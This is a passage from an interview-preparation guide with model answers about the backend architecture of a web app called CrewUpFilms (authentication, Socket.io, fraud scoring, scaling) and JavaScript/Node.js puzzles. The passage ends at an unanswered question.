# Open a Pull Request (PR) on GitHub for code review before merging into main
```

#### What Is Inside CrewUpFilms' `.gitignore`
The project's root [.gitignore](file:///c:/Users/hasin/Downloads/CREWUP/CREWUP/.gitignore) excludes:
- Dependencies: `node_modules/`, `client/node_modules/`, `server/node_modules/`
- Environment Variables: `.env`, `.env.local`, `.env.production.local`, `server/.env`, `client/.env.local`
- Build Artifacts: `client/.next/`, `client/out/`, `server/dist/`
- OS Artifacts: `.DS_Store`, `Thumbs.db`
- IDE Settings: `.vscode/`, `.idea/`
- Logs & Temp: `*.log`, `npm-debug.log*`, `coverage/`, `*.tmp`

#### Common Mistakes
- Giant monolithic commits: Writing vague commit messages (`"changes"`, `"fixed stuff"`) covering dozens of unrelated files rather than committing atomic, single-purpose changes.
- Merging directly into main: Pushing code directly to the production branch without peer review or automated checks.


---

# CrewUpFilms Backend Internship Interview Preparation Guide
## Parts C, D, and E — Candidate Mastery & Technical Reference

This guide covers the advanced technical interview question bank, corporate intelligence for SHNOOR International LLC, practice schedules, pitch scripts, and hands-on deployment blueprints.

---

# Part C: Interview Question Bank

---

## C1. Project-Specific Questions (CrewUpFilms)

### Q1: Walk me through the architecture of CrewUpFilms.
- **Model Answer**: CrewUpFilms is structured as a decoupled client-server web application designed for high concurrency and real-time collaboration among independent filmmakers. The frontend is built on Next.js 14 (React 18) utilizing client-side rendering for protected dashboard experiences and Axios interceptors for authenticated API consumption. The backend is an Express.js monolith layered cleanly across routes, controllers, middleware, and Mongoose schemas interfacing with MongoDB Atlas. Real-time events, such as direct messaging, project team chats, and push notifications, are powered by an integrated Socket.io server running on the same HTTP instance. Supporting background infrastructure includes an in-memory keyword scoring fraud detection engine, a 4-signal weighted project recommendation service, and a multi-provider fallback email dispatcher (Gmail -> Brevo -> Resend). The backend runs on Railway containerized infrastructure while the client is hosted on Vercel.
- **Follow-up**: How would you separate the Socket.io WebSocket server from the Express REST API if traffic surges tenfold?
- **Difficulty**: Medium
- **Priority**: P1

### Q2: How does authentication work in your project?
- **Model Answer**: Authentication is dual-stream, supporting both local credentials and Google OAuth. For local auth, users submit credentials; passwords are encrypted with bcrypt using 12 salt rounds before persisting to MongoDB. The system enforces email OTP verification before granting full privileges. For Google OAuth, the client sends an `id_token` retrieved from Google Identity Services, which the backend validates by calling Google's `tokeninfo` endpoint; if valid, it finds or upserts the user with their Google profile data. Once authenticated, the server signs a stateless JSON Web Token (JWT) containing the user's ObjectId (`userId`) and role, signed with `process.env.JWT_SECRET` and set to expire in 7 days. This token is returned in the JSON payload, saved to `localStorage` on the frontend, and attached as a `Bearer <token>` Authorization header on subsequent requests.
- **Follow-up**: What are the trade-offs of using Google's `tokeninfo` HTTP endpoint compared to using Google's official `google-auth-library` Node SDK?
- **Difficulty**: Easy
- **Priority**: P1

### Q3: Explain the JWT flow from login to a protected route.
- **Model Answer**: The flow initiates when a user submits `POST /api/auth/login`. The `authController` verifies the credentials against the hashed password using `bcrypt.compare`. Upon success, `generateToken(user._id, user.role)` creates a signed token (`HS256`) containing `{ userId, role }` with a 7-day expiration. The frontend receives `{ success: true, token, user }` and writes the token to `localStorage`. For every subsequent request to protected routes (e.g., `POST /api/projects`), the Axios request interceptor extracts the token and attaches `headers['Authorization'] = 'Bearer ' + token`. On the backend, the `protect` middleware runs: it verifies the header format, extracts the token, executes `jwt.verify(token, process.env.JWT_SECRET)`, extracts the decoded payload, queries MongoDB via `User.findById(decoded.userId).select('-password')`, attaches the resulting document to `req.user`, and calls `next()`. If token verification fails or the user no longer exists, it short-circuits with a 401 Unauthorized status.
- **Follow-up**: What happens if the user's role or status changes (e.g., they get banned) while their 7-day token is still valid?
- **Difficulty**: Medium
- **Priority**: P1

### Q4: How does Socket.io messaging work end-to-end?
- **Model Answer**: When the Next.js client initializes, `useSocket.js` opens a WebSocket connection to the backend passing the JWT in `socket.handshake.auth.token`. The backend Socket.io authentication middleware intercepts the connection, verifies the JWT with `jwt.verify`, attaches `socket.user = decoded`, and rejects the handshake if invalid. Once connected, `socketHandler.js` automatically joins the user into their personal room `user:${socket.user.id}`. When messaging in a direct conversation, the client emits `sendMessage` with `{ conversationId, text, recipientId }`. The handler saves the message document to MongoDB, updates `lastMessage` on the conversation, and emits `newMessage` both to the conversation room and directly to `user:${recipientId}`. For project team collaboration, sockets join `project:${chatId}`, where messages broadcast to all active project members using `io.to('project:' + projectId).emit('newProjectMessage', savedMsg)`.
- **Follow-up**: How do you handle message delivery if the recipient is currently offline?
- **Difficulty**: Medium
- **Priority**: P1

### Q5: What is the Notification post-save hook doing?
- **Model Answer**: The Notification Mongoose schema utilizes an asynchronous post-save lifecycle hook (`notificationSchema.post('save')`) to decouple notification persistence from delivery. Whenever any controller or background service creates a notification (e.g., application accepted, new follower, mentor booking confirmed) by calling `await Notification.create({...})`, the document is persisted to MongoDB. Immediately after the document successfully saves, the post-save hook triggers: it retrieves the global Socket.io instance from `global._io`, checks if `_io` is available, and emits the event `newNotification` directly to the recipient's personal socket room: `io.to('user:' + doc.recipient).emit('newNotification', doc.toObject())`. This provides instant push updates to the UI without requiring controllers to manually invoke socket emission logic.
- **Follow-up**: What happens if the server crashes right between saving the notification to MongoDB and emitting via Socket.io?
- **Difficulty**: Hard
- **Priority**: P1

### Q6: How does your fraud detection service work?
- **Model Answer**: The `fraudDetectionService.js` is a rule-based risk scoring engine that evaluates both the project payload and the creator's historical account metadata prior to public listing. It calculates a cumulative `riskScore` from 0 to 100+ and assigns a risk level (`low`, `medium`, or `high`). It scans project text (title, description, compensation) against a comprehensive blacklist of scam keywords categorized into money demands ("registration fee", "wire transfer"), contact redirection ("whatsapp only", "telegram only"), suspicious casting clauses, and fake studio affiliations ("netflix production", "disney project"). Each match adds 25 points (capped at 60). It also adds points based on creator metadata: +20 if account age is under 7 days, +20 if a new account posts a paid gig, +25 if shooting at a private residence while newly registered, and +15 per unresolved user report. Scores 0–29 auto-approve for verified creators, 30–59 trigger an admin review flag, and 60+ force the project into `pending` moderation while alerting administrators.
- **Follow-up**: How would you evolve this keyword-matching system into an automated machine learning moderation pipeline?
- **Difficulty**: Medium
- **Priority**: P1

### Q7: How does the recommendation engine work?
- **Model Answer**: The recommendation engine (`recommendationService.js`) uses a 4-signal weighted heuristic algorithm to score and rank open projects for a specific creator. The total score is out of 100 points:
1. **Role Match (40 pts)**: Regex comparison testing if `user.role` matches any entry in `project.requiredRoles`.
2. **Skill Overlap (30 pts)**: Evaluates partial and direct overlap between the user's declared profile skills and required role tags, awarding proportional points based on matching ratio.
3. **Location Similarity (20 pts)**: Awards +20 for an exact city match, +10 for same state/country, or +20 if the project is marked remote.
4. **Experience Proximity (10 pts)**: Computes step distance across categorical tiers (`beginner`, `intermediate`, `advanced`, `professional`). Exact match gets +10; 1-step difference gets +5; 2+ steps get 0.
Projects are sorted descending by score and capped at 9 results. If fewer than 3 scored matches exist, it falls back to the most recent open listings to avoid empty states.
- **Follow-up**: What is the algorithmic time complexity of running this recommendation query against 100,000 active projects, and how would you optimize it?
- **Difficulty**: Hard
- **Priority**: P1

### Q8: What is the purpose of the VERIFICATION_REQUIRED gate in createProject?
- **Model Answer**: The `VERIFICATION_REQUIRED` gate is an administrative anti-abuse and quality-control safety switch in `projectController.js`. Before creating a project, the controller checks whether the platform setting requires user verification. If the gate is active (`process.env.REQUIRE_PROJECT_CREATOR_VERIFICATION === 'true'`) and `req.user.isEmailVerified` is false, or if their identity profile status is unverified, the request is halted with a `403 Forbidden` error payload: `{ success: false, code: 'VERIFICATION_REQUIRED', message: 'Identity verification required before posting projects.' }`. This prevents automated bots, scrapers, and bad actors from spinning up throwaway accounts and immediately posting fraudulent casting calls or spamming crew listings.
- **Follow-up**: How does the frontend intercept this specific error code to guide user onboarding?
- **Difficulty**: Easy
- **Priority**: P2

### Q9: Why did you store the JWT in localStorage instead of an httpOnly cookie?
- **Model Answer**: Storing the JWT in `localStorage` was chosen initially to accelerate cross-domain decoupling and simplify client-side integration across Next.js static pages and Socket.io handshakes (`socket.handshake.auth.token`). However, `localStorage` is accessible to JavaScript running within the application context, making it vulnerable to Cross-Site Scripting (XSS) attacks where malicious injected scripts can exfiltrate tokens. An `httpOnly`, `Secure`, `SameSite=Strict` cookie is far superior because the browser automatically manages transmission and blocks all client-side JavaScript access, neutralizing token exfiltration via XSS. In a production refactor, I would transition to httpOnly cookies paired with short-lived access tokens and database-backed refresh tokens with CSRF protection tokens.
- **Follow-up**: If you migrate to `httpOnly` cookies, how does the client pass the token to the Socket.io WebSocket connection during handshake?
- **Difficulty**: Hard
- **Priority**: P1

### Q10: What would you change about your project if you had more time?
- **Model Answer**: With more engineering runway, I would prioritize four key architectural enhancements:
1. **Database Migration to PostgreSQL**: Transition User, Application, and Project models to PostgreSQL to leverage strict foreign key integrity, row-level locking during application acceptance, and ACID transactions.
2. **Asynchronous Background Job Queues**: Replace synchronous fire-and-forget operations (such as email dispatching and recommendation calculations) with BullMQ backed by Redis to guarantee retry policies and fault tolerance.
3. **Enterprise Media Pipeline**: Implement direct-to-S3 client uploads via pre-signed URLs and an AWS Lambda transcoder for filmmaker showreels instead of storing base64 strings or passing binary payloads through Express.
4. **Comprehensive Automated Testing**: Implement an automated test suite with Jest and Supertest covering edge cases in authentication, concurrency in project role applications, and authorization middleware.
- **Follow-up**: How would you design the pre-signed URL workflow with AWS S3?
- **Difficulty**: Medium
- **Priority**: P2

### Q11: How would you scale CrewUpFilms to 10x users?
- **Model Answer**: To handle a 10x traffic expansion, I would scale each layer systematically:
1. **Stateless Express Instances**: Run multiple Node.js server processes behind an Nginx or AWS Application Load Balancer (ALB) using PM2 in cluster mode or AWS ECS container tasks.
2. **Socket.io Redis Adapter**: Introduce `@socket.io/redis-adapter` so WebSocket connections distributed across multiple Node server instances can broadcast events seamlessly through Redis Pub/Sub channels.
3. **Database Caching & Read Replicas**: Place a Redis caching layer in front of high-read endpoints like `/api/projects/explore` and the leaderboard, while configuring read replicas on MongoDB Atlas (or AWS RDS PostgreSQL) to offload read operations from the primary writer.
4. **CDN for Static Assets**: Route all video showreels, posters, and user profile images through AWS CloudFront backed by S3 with edge-caching.
- **Follow-up**: How do sticky sessions relate to scaling WebSocket connections behind a load balancer?
- **Difficulty**: Hard
- **Priority**: P1

### Q12: Why MongoDB over PostgreSQL for this project?
- **Model Answer**: MongoDB was initially selected for CrewUpFilms due to rapid prototyping velocity and the semi-structured nature of early entertainment data models. Filmmaking projects require dynamic, heterogeneous attributes—such as varied equipment lists, diverse shooting schedules, custom role requirements, and nested location metadata—which mapped naturally to flexible JSON documents without requiring repeated schema migrations. Furthermore, storing notification payloads with polymorphic metadata (`data: mongoose.Schema.Types.Mixed`) was straightforward in MongoDB. However, as the platform matured to encompass relational dependencies like team memberships, multi-stage application workflows, and mutual follows, PostgreSQL became the superior choice due to its strict relational integrity, joins, and transactional consistency.
- **Follow-up**: In what scenario would a MongoDB document model suffer from unbounded array growth in CrewUpFilms?
- **Difficulty**: Medium
- **Priority**: P2

### Q13: How would you migrate the User and Project collections to PostgreSQL?
- **Model Answer**: I would execute a phased zero-downtime ETL migration:
1. **Schema Definition**: Create normalized relational tables in PostgreSQL (`users`, `profiles`, `projects`, `project_required_roles`, `team_members`) enforcing foreign keys, UUID primary keys, and CHECK constraints.
2. **Dual-Write Architecture**: Modify the Express data access layer to write new updates simultaneously to MongoDB and PostgreSQL, logging any sync discrepancies.
3. **Historical Backfill Script**: Run an idempotent batch migration script using a stream reader on MongoDB collections, transforming BSON documents into relational tuples and using `INSERT ... ON CONFLICT (id) DO NOTHING` in PostgreSQL.
4. **Data Verification**: Execute reconciliation queries verifying record counts, relationship mappings, and foreign key integrity.
5. **Read Switch & Deprecation**: Switch API read traffic to PostgreSQL via feature flags; monitor performance and error rates; decommission MongoDB once stability is proven.
- **Follow-up**: How do you handle schema differences where MongoDB stored roles as an embedded array of strings inside the project document?
- **Difficulty**: Hard
- **Priority**: P1

### Q14: What is the compound unique index on Application and why?
- **Model Answer**: In the Mongoose schema for `Application`, there is a compound index defined as:
`applicationSchema.index({ project: 1, applicant: 1, role: 1 }, { unique: true })`.
This enforces business integrity at the database storage engine level. Without this index, if a user rapidly double-clicks the "Apply" button or submits concurrent network requests, race conditions could create duplicate application records for the exact same project role. Enforcing this compound unique constraint guarantees that an applicant can only hold one active application per specific role in a project. If a duplicate insert is attempted, the MongoDB WiredTiger engine immediately throws an `E11000 duplicate key error`, which our controller catches and maps to a clean `400 Bad Request` ("You have already applied for this role").
- **Follow-up**: What is the performance impact of compound indexes on write operations?
- **Difficulty**: Medium
- **Priority**: P2

### Q15: Explain the CORS configuration in server.js.
- **Model Answer**: The CORS configuration in `server.js` dynamically supports multi-domain production environments and local development. It reads `process.env.CLIENT_URL` (which can be a comma-separated list of origins) and splits it into an array. It then automatically computes and expands both `www.` and non-`www` variants using the URL API (e.g., adding `https://crewupfilms.com` if `https://www.crewupfilms.com` is supplied). The resulting origin list is loaded into a fast `Set`. A custom `corsOrigin` callback function checks incoming origins: if the request has no origin (such as mobile apps, Postman, or server-to-server health probes), it permits the request; if the origin exists in the expanded `Set`, it permits the request; otherwise, it triggers `callback(new Error('CORS: origin not allowed'))`. `credentials: true` is enabled to allow headers and authorization credentials.
- **Follow-up**: Why is allowing requests with no origin (`!origin`) standard practice, and does it present any security risk?
- **Difficulty**: Medium
- **Priority**: P2

### Q16: What happens when an unhandled rejection occurs in production?
- **Model Answer**: In Node.js, an unhandled Promise rejection occurs when an asynchronous operation rejects without a corresponding `.catch()` or enclosing `try/catch`. In `server.js`, a process listener catches this:
`process.on('unhandledRejection', (reason) => { ... })`.
The handler logs the error stack trace to `console.error`. If `NODE_ENV === 'production'`, it triggers an automated alerting mechanism: it requires `emailService` and sends an urgent email notification containing the serialized error stack to `ADMIN_ALERT_EMAIL`. Unlike `uncaughtException`, which calls `process.exit(1)` because the process state is corrupted, unhandled rejections are logged and reported without immediately killing the server, though best practice in modern Node.js versions is to log, alert, and gracefully restart to prevent lingering memory leaks.
- **Follow-up**: Why should an `uncaughtException` always terminate the process, whereas some developers let `unhandledRejection` keep running?
- **Difficulty**: Medium
- **Priority**: P2

### Q17: How does graceful shutdown work?
- **Model Answer**: Graceful shutdown ensures that when the hosting platform (Railway, Render, or Docker/Kubernetes) sends termination signals (`SIGTERM` or `SIGINT`), the application completes existing in-flight HTTP requests rather than abruptly terminating connections. In `server.js`, a `gracefulShutdown` function binds to both signals. When invoked, it calls `server.close()`, which stops accepting new TCP connections and drains active HTTP requests. Inside its callback, it calls `mongoose.connection.close(false)`, cleanly terminating connection pools to MongoDB Atlas so transactions finish cleanly. Finally, it calls `process.exit(0)`. To prevent hung requests from freezing the shutdown, a fallback timeout `setTimeout(() => process.exit(1), 10000)` enforces a hard exit after 10 seconds.
- **Follow-up**: How does Socket.io need to be handled during a graceful shutdown?
- **Difficulty**: Medium
- **Priority**: P1

### Q18: How does the email provider cascade work?
- **Model Answer**: The `emailService.js` implements a resilient multi-tier fallback cascade pattern to guarantee delivery of mission-critical transactional emails (OTP verification, password resets, audition alerts). Rather than relying on a single SMTP gateway, it organizes providers sequentially: Tier 1 is Resend (API-based, high deliverability), Tier 2 is Brevo/Sendinblue (SMTP), and Tier 3 is Gmail SMTP. When `sendEmail(to, subject, html)` is called, it attempts Tier 1 within a `try/catch`. If the API key is missing, network fails, or a 4xx/5xx error occurs, it catches the exception, logs a warning, and automatically cascades to Tier 2. If Tier 2 fails, it falls back to Tier 3. Only if all three providers fail does the service throw an aggregated error, ensuring maximum reliability.
- **Follow-up**: What is the latency impact of a multi-provider fallback if the first provider takes 10 seconds to time out?
- **Difficulty**: Medium
- **Priority**: P2

### Q19: What security issues exist in your project?
- **Model Answer**: A transparent audit of the current codebase reveals several technical security areas requiring hardening:
1. **JWT in localStorage**: The frontend stores JWTs in `localStorage`, exposing tokens to potential exfiltration via Cross-Site Scripting (XSS).
2. **Missing Input Validation on Non-Auth Routes**: While auth routes utilize `express-validator`, many operational endpoints (such as project updates and comments) rely only on ad-hoc controller checks.
3. **Lack of CSRF Protection**: Because tokens are stored in `localStorage` rather than httpOnly cookies, CSRF is mitigated, but migrating to cookies without `SameSite` and anti-CSRF tokens would introduce vulnerabilities.
4. **Global In-Memory Socket Reference**: Assigning `global._io = io` ties real-time emissions to a single Node.js heap, preventing horizontal scaling across multiple instances without a pub/sub broker.
- **Follow-up**: How would you prioritize remediating these issues in a production sprint?
- **Difficulty**: Hard
- **Priority**: P1

### Q20: How would you add refresh tokens to your auth system?
- **Model Answer**: To implement refresh tokens:
1. **Token Generation**: Upon login, generate two tokens: an Access Token (15-minute expiry, signed with `ACCESS_TOKEN_SECRET`) and a Refresh Token (7-day expiry, cryptographically secure random bytes or JWT signed with `REFRESH_TOKEN_SECRET`).
2. **Storage**: Hash the Refresh Token using SHA-256 and persist it in a dedicated `refresh_tokens` database table linked to `user_id`, storing device metadata and revocation status.
3. **Client Transport**: Send the Access Token in the JSON response (or short-lived memory) and send the Refresh Token inside an `httpOnly`, `Secure`, `SameSite=Strict` cookie path-restricted to `/api/auth/refresh`.
4. **Rotation**: When `/api/auth/refresh` is hit, verify the token in the database, revoke it immediately (Token Rotation), issue a brand-new pair of access and refresh tokens, and update the database. If a revoked token is reused, immediately invalidate all refresh tokens for that user (Automatic Reuse Detection).
- **Follow-up**: What is Refresh Token Rotation and how does it prevent token replay attacks?
- **Difficulty**: Hard
- **Priority**: P1

### Q21: Explain the optionalProtect middleware — when would you use it?
- **Model Answer**: The `optionalProtect` middleware is designed for hybrid public/authenticated routes. Standard `protect` middleware immediately rejects requests lacking an `Authorization` header with a 401 error. In contrast, `optionalProtect` inspects the request: if no token is present, it simply calls `next()` leaving `req.user = null`. If an `Authorization: Bearer <token>` header is present, it attempts verification: if valid, it populates `req.user` with the database user record and calls `next()`. If invalid or expired, it still calls `next()` with `req.user = null`. This is essential for features like `/api/projects/explore` or `/api/films/:id`: unauthenticated guests can view public film listings, while authenticated users receive personalized metadata like `isLiked`, `isSaved`, or tailored recommendation scores.
- **Follow-up**: What security risk arises if a developer mistakenly uses `optionalProtect` on a route that performs data modifications?
- **Difficulty**: Medium
- **Priority**: P2

### Q22: How does the Socket.io auth middleware differ from the HTTP auth middleware?
- **Model Answer**: While both verify the same JWT, their architecture, timing, and failure handling differ fundamentally. HTTP `protect` runs on every individual REST request, parsing `req.headers.authorization`, querying MongoDB to populate `req.user`, and returning JSON error responses (`res.status(401).json(...)`). Socket.io auth middleware (`io.use((socket, next) => { ... })`) runs only once during the initial WebSocket handshake. It extracts the token from `socket.handshake.auth.token` or `socket.handshake.headers.authorization`. Because rejecting an HTTP request returns a standard response code whereas rejecting a socket handshake terminates the TCP connection, the socket middleware calls `next(new Error('Authentication error'))` to abort the connection. Once authorized, the user context persists on the `socket` object for the entire duration of the connection.
- **Follow-up**: If a user's permissions change while their WebSocket connection is active, how do you revoke their connection?
- **Difficulty**: Medium
- **Priority**: P2

### Q23: What is the purpose of sparse: true on the googleId index?
- **Model Answer**: In MongoDB, a unique index (`{ unique: true }`) enforces that no two documents have the exact same value for the indexed field. By default, MongoDB indexes documents where the field is `null` or missing, treating multiple `null` values as duplicate keys and throwing an `E11000 duplicate key error` on the second local user who doesn't have a `googleId`. Setting `{ sparse: true }` instructs the MongoDB BSON indexer to only index documents that actually contain the `googleId` field. Users registering with standard email/password do not possess a `googleId`; the sparse index skips those documents entirely, allowing hundreds of thousands of standard users while guaranteeing that any user who does sign in via Google has a strictly unique `googleId`.
- **Follow-up**: What is the difference between a MongoDB sparse index and a partial filter expression index?
- **Difficulty**: Medium
- **Priority**: P2

### Q24: Explain the rate limiting strategy and why it's skipped in development.
- **Model Answer**: The application deploys a tiered rate-limiting defense using `express-rate-limit`:
1. **Strict Auth Limiter**: Mounted at `/api/auth`, enforcing a maximum of 20 requests per 15-minute window per IP. This mitigates automated credential stuffing, brute-force password cracking, and OTP enumeration.
2. **General API Limiter**: Mounted at `/api`, permitting 120 requests per minute per IP to prevent DoS attacks, API scraping, and aggressive polling.
Both limiters include `skip: () => process.env.NODE_ENV === 'development'`. Rate limiting is disabled in local development because hot-module reloading (HMR) in Next.js, rapid frontend testing, automated developer scripts, and frequent manual refreshes would trigger 429 "Too Many Requests" blocks, stalling development velocity.
- **Follow-up**: What is a critical problem with using default in-memory `express-rate-limit` when deploying multiple server instances behind a load balancer?
- **Difficulty**: Easy
- **Priority**: P2

---

## C2. JavaScript and Node.js

### Q25: Event Loop Output Prediction (Microtasks vs Macrotasks)
- **Puzzle**:
```javascript
console.log('1');
setTimeout(() => {
  console.log('2');
  Promise.resolve().then(() => console.log('3'));
}, 0);
new Promise((resolve) => {
  console.log('4');
  resolve();
}).then(() => {
  console.log('5');
});
console.log('6');
```
- **Output**:
```text
1
4
6
5
2
3
```
- **Explanation**: 
1. `console.log('1')` executes synchronously (logs `1`).
2. `setTimeout` schedules its callback to the Timers macrotask queue.
3. The `new Promise` executor runs synchronously (logs `4`), resolves, and enqueues `.then()` callback (`5`) into the Microtask queue.
4. `console.log('6')` runs synchronously (logs `6`).
5. Call stack empties. Node.js processes all microtasks: `.then()` executes (logs `5`).
6. The event loop moves to the macrotask queue: `setTimeout` executes (logs `2`), and enqueues Promise `.then()` callback (`3`) into the microtask queue.
7. Microtask queue drains before moving to next macrotask (logs `3`).
- **Difficulty**: Medium | **Priority**: P1

### Q26: Closures and the var vs let Loop Problem
- **Puzzle**:
```javascript
for (var i = 0; i < 3; i++) {
  setTimeout(() => console.log('var:', i), 100);
}
for (let j = 0; j < 3; j++) {
  setTimeout(() => console.log('let:', j), 100);
}
```
- **Output**:
```text
var: 3
var: 3
var: 3
let: 0
let: 1
let: 2
```
- **Explanation**: `var` is function-scoped (or globally scoped). All three timer callbacks close over the exact same variable `i`. By the time the 100ms timer expires and the callbacks execute, the synchronous loop has completed and `i` has reached `3`. In contrast, `let` is block-scoped. Each iteration of the for-loop creates a brand-new lexical scope binding for `j`, so each timer callback closes over its own immutable copy of `j` at that specific iteration (`0`, `1`, `2`).
- **Difficulty**: Easy | **Priority**: P1

### Q27: Promise.all vs Promise.allSettled vs Promise.race
- **Model Answer**:
  - `Promise.all(iterable)`: Executes promises concurrently. It fulfills only when all promises fulfill, returning an array of results. If any single promise rejects, it immediately rejects (fail-fast), ignoring pending promises. *Codebase Example*: In `socketHandler.js`, dispatching notifications to multiple project members uses `Promise.all(notifPromises)`. If one member notification fails, the entire batch rejects.
  - `Promise.allSettled(iterable)`: Waits for all promises to either resolve or reject. It never short-circuits. It returns an array of objects describing the outcome: `{ status: 'fulfilled', value }` or `{ status: 'rejected', reason }`. This is preferred in batch operations (like email blasts or bulk push notifications) where one failure shouldn't abort the remaining tasks.
  - `Promise.race(iterable)`: Settles as soon as the very first promise settles (either resolves or rejects). Useful for network request timeouts (racing a fetch request against a 5000ms rejection timer).
- **Difficulty**: Medium | **Priority**: P1

### Q28: async/await vs .then() Promise Chains
- **Model Answer**: `async/await` is syntactic sugar built on top of JavaScript Promises and generators. 
1. **Readability**: `async/await` flattens nested asynchronous control flow, avoiding "callback hell" and unreadable `.then().then()` chains.
2. **Error Handling**: `async/await` allows standard synchronous `try/catch` blocks around asynchronous code, capturing both synchronous runtime errors and rejected promises in a single unified error handler.
3. **Debugging**: When an error occurs in an `await` expression, the stack trace points directly to the line of code where execution paused, whereas `.then()` chains often yield anonymous promise callback frames that obscure the source.
- **Difficulty**: Easy | **Priority**: P1

### Q29: Error Handling in Async Express Route Handlers
- **Puzzle**: What happens if an unhandled error throws inside an async route in Express 4?
```javascript
app.get('/api/test', async (req, res, next) => {
  const user = await User.findById(req.params.id); // throws CastError
  res.json(user);
});
```
- **Explanation**: In Express 4, route handlers do not automatically wrap promises. If an unhandled rejection occurs inside an `async` function and there is no enclosing `try/catch`, the promise rejects without Express knowing. The request hangs indefinitely until client timeout, and Node.js emits an `unhandledRejection` event. To fix this in Express 4, you must wrap async code in `try/catch` and call `next(error)`, or use a wrapper utility like `express-async-handler`:
```javascript
const asyncHandler = fn => (req, res, next) => Promise.resolve(fn(req, res, next)).catch(next);
```
*(Note: Express 5 natively handles rejected promises from async handlers).*
- **Difficulty**: Hard | **Priority**: P1

### Q30: Node.js Streams (Conceptual & Gap Analysis in CrewUpFilms)
- **Model Answer**: Streams are Unix-like data-handling abstractions in Node.js that process continuous chunks of data piece-by-piece rather than loading the entire payload into RAM. The 4 types are Readable, Writable, Duplex, and Transform.
*CrewUpFilms Gap*: In CrewUpFilms, user profile images and project assets are received via JSON payloads (`express.json({ limit: '10mb' })`). If multiple users upload 10MB assets simultaneously, server memory consumption spikes dangerously. By introducing streams (e.g., using `multer` with `busboy`), incoming multi-part file streams can be piped directly to an AWS S3 bucket via `stream.pipeline(req, s3UploadStream)` with a tiny constant memory footprint (~64KB chunk buffer).
- **Difficulty**: Hard | **Priority**: P2

### Q31: The 'this' Keyword: Regular Functions vs Arrow Functions
- **Puzzle**:
```javascript
const creator = {
  name: 'Christopher Nolan',
  regularFunc: function() { return this.name; },
  arrowFunc: () => this.name,
};
console.log(creator.regularFunc());
console.log(creator.arrowFunc());
```
- **Output**:
```text
Christopher Nolan
undefined
```
- **Explanation**: In regular functions, `this` is dynamically bound based on *how* the function is invoked (call-site). When called as `creator.regularFunc()`, `this` points to `creator`. Arrow functions do not possess their own `this` binding; instead, they capture `this` lexically from their enclosing scope at declaration time. Here, the enclosing scope of `arrowFunc` is the top-level module exports / global object, where `name` does not exist, evaluating to `undefined`. In Mongoose schema hooks, regular functions must be used whenever you need to access document fields via `this.fieldName`.
- **Difficulty**: Easy | **Priority**: P1

### Q32: Destructuring, Spread, and Rest Operators
- **Model Answer**:
- **Destructuring**: Unpacks values from arrays or properties from objects into distinct variables (e.g., `const { title, description } = req.body;`).
- **Rest Operator (`...`)**: Gathers remaining elements into a single array or object parameter. In function signatures: `function logEvents(primary, ...secondaryEvents) { }`.
- **Spread Operator (`...`)**: Expands an iterable (array or object) into individual elements. Used extensively in CrewUpFilms controllers to update documents immutably: `const updatedData = { ...existingProfile.toObject(), ...req.body };`.
- **Difficulty**: Easy | **Priority**: P2

### Q33: Event Emitter Pattern and its Relationship to Socket.io
- **Model Answer**: Node's built-in `EventEmitter` class (`require('events')`) implements the Observer design pattern, providing `.on(event, listener)` to register subscribers and `.emit(event, ...args)` to publish events synchronously to all registered callbacks on the internal heap. Socket.io builds on this conceptual foundation but extends it across network boundaries over WebSockets. While `EventEmitter` only notifies in-memory callbacks inside a single Node.js process, Socket.io serializes messages over TCP to remote client browsers and abstracts networking concepts like rooms, namespaces, and auto-reconnection.
- **Difficulty**: Medium | **Priority**: P2

### Q34: Node.js Non-Blocking I/O: Why Database Queries Don't Block the Thread
- **Model Answer**: Node.js operates on a single-threaded JavaScript execution engine (V8), but delegates all asynchronous I/O operations (file system, DNS, database TCP sockets) to `libuv`. When Mongoose executes `User.findById()`, the query is translated into a wire-protocol BSON command written to the network socket connecting to MongoDB Atlas. Node does not block waiting for the database response; instead, libuv registers the file descriptor with the OS kernel multiplexer (`epoll` on Linux, `kqueue` on macOS, `IOCP` on Windows) and yields the single thread back to the event loop to process other incoming HTTP requests. When MongoDB returns data, the OS signals libuv, which places the query callback into the event loop's task queue for execution.
- **Difficulty**: Hard | **Priority**: P1

### Q35: Deep vs Shallow Copy in JavaScript
- **Puzzle**:
```javascript
const original = { title: 'Dunkirk', tags: ['war', 'history'] };
const shallow = { ...original };
shallow.tags.push('imax');
shallow.title = 'Tenet';
console.log(original.title, original.tags);
```
- **Output**:
```text
Dunkirk [ 'war', 'history', 'imax' ]
```
- **Explanation**: The spread operator `{ ...original }` performs a shallow copy. Primitive properties like `title` are copied by value, so modifying `shallow.title` does not affect `original.title`. However, nested objects and arrays (`tags`) are copied by reference. Both `original.tags` and `shallow.tags` reference the same memory address in the heap; thus, mutating the array via `.push()` reflects across both references. Deep cloning requires `structuredClone(original)` or `JSON.parse(JSON.stringify(original))`.
- **Difficulty**: Easy | **Priority**: P2

### Q36: Memory Leaks in Node.js Applications
- **Model Answer**: Common causes of memory leaks in Node.js backends include:
1. **Unbounded Global State**: Retaining data in global arrays/objects (e.g., storing socket connections or session states in global variables without eviction).
2. **Dangling Event Listeners**: Attaching `emitter.on('event', listener)` repeatedly without calling `.removeListener()` or `.off()`.
3. **Accidental Closures**: Retaining large outer-scope variables in long-lived callback functions.
*Detection & Mitigation*: Monitor heap usage with `process.memoryUsage()`, capture V8 heap snapshots via Chrome DevTools or `heapdump`, and inspect memory graphs using AWS CloudWatch or Clinic.js.
- **Difficulty**: Hard | **Priority**: P2

### Q37: Buffer vs String in Node.js
- **Model Answer**: A `String` in V8 is a sequence of UTF-16 code units stored in the V8 garbage-collected heap. A `Buffer` is a low-level binary data structure allocated outside the V8 heap in raw C++ memory managed by `libuv`. Buffers represent raw byte streams (octets) essential for handling TCP network packets, cryptographic hashing (`crypto.randomBytes(32)` used in CrewUpFilms password reset tokens), and reading image files. Converting large binary files to strings introduces encoding overhead and can corrupt non-text byte sequences.
- **Difficulty**: Medium | **Priority**: P3

### Q38: Node.js Cluster Module and Worker Threads
- **Model Answer**:
- **Cluster Module**: Forks multiple OS processes (workers) sharing the same server port. Each worker has its own dedicated V8 instance, event loop, and memory heap. The master process distributes incoming network connections round-robin. It is ideal for scaling I/O-heavy web servers (like Express) across multi-core CPUs.
- **Worker Threads**: Runs multiple threads within a single process sharing the same memory heap. Useful for CPU-intensive tasks (image resizing, video compression, complex math) that would otherwise freeze the single event loop.
- **Difficulty**: Hard | **Priority**: P2

### Q39: What is `process.nextTick()` and how does it differ from `setImmediate()`?
- **Model Answer**: 
